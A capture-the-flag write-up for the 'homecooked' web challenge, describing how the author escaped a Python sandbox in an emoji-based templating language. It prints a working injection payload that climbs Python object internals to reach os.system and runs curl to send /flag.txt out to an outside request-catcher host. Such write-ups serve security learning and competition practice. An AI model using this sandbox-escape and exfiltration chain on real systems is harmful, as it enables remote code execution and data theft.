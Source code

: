 # web / homecooked

### Description

I've been working on my own ASGI-complaint Python web framework. It's still in the early stages, but I think it's coming along nicely. I've set up a demo site for you to try it out. Can you find the flag?

homecooked.challs.pwnoh.io

File: [homecooked.zip](./homecooked.zip)

### Solve

Starting to look through the code (and the actual site), you can see that it lets you run code in its home-made language with emojis. There's a whole grammar in lark file, which was super annoying to parse (curse CS 236 being useful). But the whole site ran on a template similar to flask, so the challenge was basically prompt injection.

I worked on this with LegoClones, since after I learned that it was pretty locked down in what it could run, it was a pyjail and I don't have a ton of experience there. Thankfully, lego knew what was going on. We used the grammar as implemented and the code injection section to print the flag with this string:

```py
🥢hex🥚__class__🥚__bases__🍎0🍏🥚__subclasses__🦀🦞🍎221🍏🦀🦞🥚_module🥚__builtins__🍎'__import__'🍏🦀'os'🦞🥚system🦀'curl http://lego.requestcatcher.com/$(cat /flag.txt)'🦞🥢
```

So kinda neat but also kinda annoying. The resource for solving the challenge was [this Hacktricks site](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)